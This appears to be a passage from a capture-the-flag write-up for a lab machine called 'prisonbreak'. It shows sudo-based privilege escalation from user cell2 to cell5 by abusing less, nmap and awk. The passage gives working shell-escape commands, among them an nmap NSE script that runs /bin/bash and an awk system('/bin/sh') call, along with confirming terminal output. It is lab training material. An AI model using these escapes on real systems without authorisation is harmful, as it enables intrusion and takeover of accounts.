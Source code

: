 User cell2 may run the following commands on prisonbreak:
    (cell3) NOPASSWD: /usr/bin/less



### Privilige escelation */usr/bin/less*

```
sudo -u cell3 less /etc/profile
!/bin/bash

cell3@prisonbreak:/home/cell1$ whoami
cell3
```

Matching Defaults entries for cell3 on prisonbreak:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cell3 may run the following commands on prisonbreak:
    (cell4) NOPASSWD: /usr/bin/nmap



### Privilige escelation */usr/bin/nmap*

after some tries i found it was non interactive nmap

```
echo "os.execute('/bin/bash')" > /tmp/shell.nse
sudo -u cell4  nmap --script=/tmp/shell.nse

cell3@prisonbreak:/tmp$ echo "os.execute('/bin/bash')" > /tmp/shell.nse
cell3@prisonbreak:/tmp$ sudo -u cell4  nmap --script=/tmp/shell.nse

Starting Nmap 7.40 ( https://nmap.org ) at 2022-08-10 06:24 UTC
cell4@prisonbreak:/tmp$ 

```
here id did pitstop and created new ssh to cell4 same as cell1.

sudo -l 
Matching Defaults entries for cell4 on prisonbreak:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User cell4 may run the following commands on prisonbreak:
    (cell5) NOPASSWD: /usr/bin/awk

### Privilige escelation */usr/bin/awk*

```
It can be used to break out from restricted environments by spawning an interactive system shell.

awk 'BEGIN {system("/bin/sh")}'

cell4@prisonbreak:~$ sudo -u cell5 /usr/bin/awk 'BEGIN {system("/bin/sh")}'
$ 
$ id
uid=1005(cell5) gid=1004(cell5) groups=1004(cell5)
$ 
```
